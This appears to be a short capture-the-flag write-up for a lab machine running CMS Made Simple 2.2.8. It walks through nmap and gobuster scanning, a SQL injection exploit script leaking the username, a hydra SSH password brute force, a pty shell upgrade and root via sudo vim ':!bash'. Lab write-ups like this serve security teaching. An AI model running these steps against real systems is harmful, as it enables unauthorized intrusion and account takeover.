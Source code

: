 #### 7 AUG 2021 

#### ip : 10.10.154.95


# SCANNING

intial
-------

$ nmap -sV 10.10.154.95 

```
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

```


# ENUMERATION


$ gobuster dir -u "http://10.10.154.95" -w /usr/share/dirb/wordlists/common.txt | tee gobuster.txt


```
/.hta                 (Status: 403) [Size: 291]
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]  
/server-status        (Status: 403) [Size: 300]  
/simple               (Status: 301) [Size: 313] [--> http://10.10.154.95/simple/]
````
let's check this :

/simple               uses CMS Made Simple version 2.2.8

found sql exploit return username and password .

this script is really bad and slow but requests module had some issues with me in python 2 :( 
```
 python3 cve-2021-26120.py.txt 10.10.154.95 /simple  "whoami"                                    
(+) targeting http://10.10.154.95/simple/
(+) sql injection working!
(+) leaking the username...
(+) username: mitch

````
### $ hydra -l mitch  -P /usr/share/wordlists/rockyou.txt 10.10.154.95  ssh -s 2222 


[2222][ssh] host: 10.10.154.95   login: mitch   password: secret


### $ ssh mitch@10.10.154.95 -p 2222     

`$python -c "import pty;pty.spawn('/bin/bash')"`


#sudo -l 

`(root) NOPASSWD: /usr/bin/vim`

then : sudo vim
 
and use :!bash

#### rooted
